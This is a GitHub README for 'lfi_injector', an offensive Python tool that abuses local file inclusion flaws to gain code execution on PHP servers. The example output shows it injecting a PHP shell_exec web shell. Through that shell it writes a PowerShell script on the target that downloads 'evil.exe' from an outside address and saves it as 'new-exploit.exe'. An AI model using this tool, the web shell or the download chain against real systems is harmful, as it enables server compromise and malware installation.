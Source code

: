 # lfi_injector

Reads code (or anything else) from a file, url encodes it, and makes a request for each line, so as to attempt to gain LFI code execution. Use of the `inject` parameter will precede the requests with the necessary php code (otherwise, this will need to be done manually)

Prerequisites: The system must be vulnerable to LFI and the appropriate susceptible URL must be used (do your research)

## Usage

```
usage: lfi_injector.py [-h] -f FILE -u URL -p PARAMETER [-v] [--inject]
                       [--target TARGET] [--port PORT]

optional arguments:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  file with code to send
  -u URL, --url URL     full vulnerable url (minus injected parameter
  -p PARAMETER, --parameter PARAMETER
                        injected parameter (ex: cmd)
  -v, --verbose         v: increased detail; vv: even more detail
  --inject              inject php parse code
  --target TARGET       target to inject parser
  --port PORT           port to inject (default: 80)
  ```
  
  ## Example
  
  ```
python .\lfi_injector.py -f testfile -u http://127.0.0.1:8997?name=shrek -p t3st -v --inject --target=127.0.0.1 --port=8997
[+] inject php parameter parser enabled
[+] connecting to 127.0.0.1 on port 8997
[+] injecting: <?php echo shell_exec($_GET['t3st']);?>
[+] url: http://127.0.0.1:8997?name=shrek, parameter: t3st
[+] code read from file: testfile
[+] sending requests...
[+] sending: http://127.0.0.1:8997?name=shrek&t3st=echo+%24storageDir+%3D+%24pwd+%3E+wget.ps1
[+] success!
[+] sending: http://127.0.0.1:8997?name=shrek&t3st=echo+%24webclient+%3D+New-Object+System.Net.WebClient+%3E%3Ewget.ps1
[+] success!
[+] sending: http://127.0.0.1:8997?name=shrek&t3st=echo+%24url+%3D+%22http%3A%2F%2F10.11.0.5%2Fevil.exe%22+%3E%3Ewget.ps1
[+] success!
[+] sending: http://127.0.0.1:8997?name=shrek&t3st=echo+%24file+%3D+%22new-exploit.exe%22+%3E%3Ewget.ps1
[+] success!
[+] sending: http://127.0.0.1:8997?name=shrek&t3st=echo+%24webclient.DownloadFile%28%24url%2C%24file%29+%3E%3Ewget.ps1
[+] success!
[+] 100% successful transfer!
```

# TODO

Definitely still needs a little work, but wanted to give a placeholder for now...
